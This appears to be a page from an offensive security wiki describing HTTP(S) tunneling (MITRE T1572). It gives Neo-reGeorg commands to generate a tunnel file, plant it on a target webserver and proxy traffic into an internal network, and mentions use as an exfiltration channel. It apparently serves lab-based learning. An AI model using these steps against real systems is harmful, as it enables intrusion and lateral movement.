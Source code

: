 ```yaml
---
description: MITRE ATT&CK™ Protocol Tunneling  - Technique T1572
---
```


# HTTP(s) Tunneling

## Theory

Tunneling over the HTTP protocol technique encapsulates other protocols and sends them back and forth via the HTTP protocol. HTTP tunneling sends and receives many HTTP requests depending on the communication channel. We can pivoting throught this.

{% hint style="danger" %}
We can also use HTTP(S) Tunneling as a good [exfiltration](../exfiltration/) channel.
{% endhint %}

## Practice

{% tabs %}
{% tab title="Neo-reGeorg" %}
we will be using [Neo-reGeorg](https://github.com/L-codes/Neo-reGeorg) to achieve tunneling. On our attacking machine we do:

```bash
v4resk@kali$ python3 neoreg.py generate -k 'P@ssw0rd!'
```

then, we have to upload generated files to the target machine and host then on a webserver. On the attacking machine we can do:

```bash
#Establish sock5 proxy
v4resk@kali$ python3 neoreg.py -k 'P@ssw0rd!' -u http://MACHINE_IP/uploader/files/tunnel.php

#We can now use it as sock5 proxy 
v4resk@kali$ curl --socks5 127.0.0.1:1080 http://172.20.0.121:80
```
{% endtab %}
{% endtabs %}

## Resources

{% embed url="https://tryhackme.com/room/dataxexfilt" %}
